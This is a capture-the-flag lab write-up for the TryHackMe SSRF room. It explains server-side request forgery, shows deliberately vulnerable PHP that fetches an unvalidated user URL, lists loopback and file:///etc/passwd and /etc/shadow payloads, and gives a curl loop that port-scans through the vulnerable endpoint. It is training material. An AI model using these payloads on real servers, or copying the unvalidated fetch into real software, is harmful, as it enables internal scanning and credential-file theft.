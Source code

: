 # Room
https://tryhackme.com/room/ssrf

# Task 1 - What is SSRF
SSRF is Server Side Request Forgery.  It is a vulnerability in web applications where an attacker can make additional HTTP requests through the server to another resource on the backend.  In a typical scenario a web server has a backend app and db server, but a user is only allowed to access the web server on normal web ports, not the other servers.  The web server on the otherhand is allowed access to the backend app and db server.  The vulnerability comes into play when SSRF is used to make requests to the backend on behalf of the web server, which has the access.

# Task 2 - Cause of SSRF
The main cause of the vulnerability is through not sanitizing user input and input validation.

Example vulnerable code
```
<?php

if (isset($_GET['url']))

{
  $url = $_GET['url'];
  $image = fopen($url, 'rb');
  header("Content-Type: image/png");
  fpassthru($image);

}
```

In the code example there is no sanitization of input or input validation.

# Task 3 - SSRF Payload
Example
* Test payloads
    * http://127.0.0.1:3306
    * http://[::]:3306
    * http://localhost:3306
    * http://:::3306
    * convert IP address to decimal or hex
* Reading files
    * file:///etc/passwd
    * file:///etc/shadow
* Research
    * https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md

# Task 4 - Exercise
Find the open ports
    ```
    ip="10.10.76.7"; for i in {1..65000}; do curl --silent http://$ip:8000/attack?url=http%3A%2F%2F2130706433%3A$i | grep "is reachable!"; done
                    <p style="font-size:2em;color: black">  Target is reachable!  </p>
    ```
Count the users on the system
    ```
    file:///etc/passwd
    ```

# Task 5 - Solution
Walkthrough of the answers from Task 4